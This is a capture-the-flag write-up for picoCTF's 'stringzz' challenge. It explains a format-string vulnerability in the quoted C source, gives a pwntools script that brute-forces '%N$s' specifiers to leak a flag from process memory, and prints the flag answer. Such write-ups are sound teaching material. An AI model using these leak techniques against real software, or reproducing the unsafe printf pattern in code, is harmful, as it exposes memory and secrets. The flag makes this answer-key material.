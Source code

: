 # stringzz

Points: 300

# Question

Use a format string to pwn this [program](vuln) and get a flag. Its also found in /problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010 on the shell server. [Source](vuln.c).

# Hint 

http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

# Solution

Looking at the source code:

```
void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);                        <----- printf which can be exploit with format strings
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);            <------ user give some input 
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");                
    fgets(buf,FLAG_BUFFER,f);                <------ flag loaded to some place in memory
    printMessage1(input);        
    fflush(stdout);
 
}
```

This time we have no win function and we don't need to overflow the buff, the flag is somewhere in the memory and we can just print it using format_strings 

for example, if we give "%x" as input we will some output we did not suppose to get, look like memory addresses.

![](strings1.png)

so we can brute-force and make the program print a lot of stuff that stored in our memory and hopefully the flag  - [script](script.py)

```
from pwn import *

path ="/problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010/vuln"
for i in range(100):
        try:
            sh =process(path)
            sh.sendline('%{}$s'.format(i))
            print(sh.recv())
            sh.close()
        except EOFError:
            pass
```

after searching a bit between all outputs we can find the flag 

![](strings2.png)

# Flag
picoCTF{str1nG_CH3353_0814bc7c}

